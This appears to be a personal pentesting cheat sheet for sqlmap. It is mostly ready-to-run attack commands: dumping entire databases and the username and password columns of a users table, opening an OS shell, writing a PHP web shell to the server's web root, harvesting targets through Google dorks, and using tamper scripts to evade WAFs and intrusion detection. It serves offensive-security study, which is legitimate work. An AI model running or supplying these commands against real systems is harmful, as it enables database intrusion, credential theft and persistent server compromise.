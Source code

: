  `sqlmap -u "http://example.com/page.php?id=1" -D <database_name> --tables` > **Enumerate tables in a specific database**
 `sqlmap -u "http://example.com/page.php?id=1" -D <database_name> -T <table_name> --dump` > **Dump data from a specific table**
 `sqlmap -u "http://example.com/page.php?id=1" --dump-all` > **dump all data** **from the target database** 
 `sqlmap -u "http://example.com/app.php?id=10" -p id --dbms=PostgreSQL --dump --tables -T users --columns -C username,password --batch --headers="X-Forwarded-For: 127.0.0.1\nAuth-Token: abcdef12345"` :
 - `--dump`: Dumps database content.
- `--tables`: Lists tables to identify which ones to target.
- `-T users`: Targets the 'users' table specifically.
- `--columns`: Lists columns of the specified table.
- `-C username,password`: Specifies the columns to extract data from.
- `--headers="X-Forwarded-For: 127.0.0.1\nAuth-Token: abcdef12345"`: Includes custom HTTP headers necessary for maintaining sessions or access controls that require specific tokens or client IP forwarding.

if it's not working try encode it > ctrl + u
![[Pasted image 20250322164625.png]]
# SQLMAP Techniques : 
- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries
to use all => `--technique=BEUSTQ`, or u can just write any letter of them
------------------------------------------
- SQLMap can **identify** the OS and database details to **prepare for privilege escalation**.
`sqlmap -u "http://example.com/index.php?id=1" --current-user --current-db --hostname --is-dba` > if `is-dba` returns **True**, you have **database admin privileges**
- If the database has high privileges, SQLMap can **execute system commands**.
`sqlmap -u "http://example.com/index.php?id=1" --os-shell` > This gives you **command-line access** if possible.
- If the database user has **high privileges**, you can try escalating control.
`sqlmap -u "http://example.com/index.php?id=1" --privileges` > If you see `FILE`, `EXECUTE`, or `SUPER`, you can **read/write files**.
**Try Writing a Web Shell**:
`sqlmap -u "http://example.com/index.php?id=1" --file-write="/var/www/html/shell.php" --file-dest="/var/www/html/shell.php"` >Now, access your **webshell** at `http://example.com/shell.php`.
- `sqlmap.py -m /path/to/targets.txt` > Allows testing of multiple targets listed in a text file. Each line in the file should contain one target.
- `sqlmap.py -g "inurl:index.php?id="y` > Uses Google dorking to find and process target URLs. SQLMap automates the search for URLs using specified Google dorks.
- 
# Tampering
Tampering in SQLMap refers to **modifying or obfuscating SQL injection payloads** to bypass security mechanisms such as **Web Application Firewalls (WAFs), Intrusion Detection Systems (IDS), or filters**.
SQLMap provides **tamper scripts** that can be applied using the `--tamper` option to **alter the payload structure**, making it harder for security tools to detect and block the attack.
``sqlmap --list-tampers`` > To list all available tamper scripts
## Common Tamper Scripts
`sqlmap -u "http://example.com/login.php?id=1" --dbs --tamper=space2comment,randomcase,charencode`
**space2comment.py** :
- Replaces spaces with comments (`/**/`) to evade WAFs.